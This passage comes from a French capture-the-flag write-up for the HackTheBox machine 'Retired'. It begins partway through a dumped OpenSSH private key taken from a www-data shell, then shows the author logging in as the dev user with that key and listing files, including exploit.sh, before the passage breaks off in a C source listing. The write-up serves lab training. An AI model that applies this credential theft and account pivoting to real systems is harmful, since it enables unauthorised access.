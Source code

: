 ```
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
-----END OPENSSH PRIVATE KEY-----
www-data@retired:/tmp/var/www/html$ 
```

parfait ! On a récupéré une clé rsa afin de pouvoir se login en tant que dev.

## dev

Bon, le writeup devient long et cette box commence à me souler donc je vais être speed sur la deuxième partie.

```
root@debian:~# ssh -i htb-retired_id_rsa_dev dev@10.10.11.154
Linux retired 5.10.0-11-amd64 #1 SMP Debian 5.10.92-2 (2022-02-28) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Jun 28 13:04:22 2022 from 10.10.14.13
dev@retired:~$ ls
activate_license  emuemu  exploit.sh  user.txt
dev@retired:~$ ls emuemu/
Makefile  README.md  emuemu  emuemu.c  reg_helper  reg_helper.c  test
dev@retired:~$ cat emuemu/reg_helper.c 
#define _GNU_SOURCE

#include <fcntl.h>
```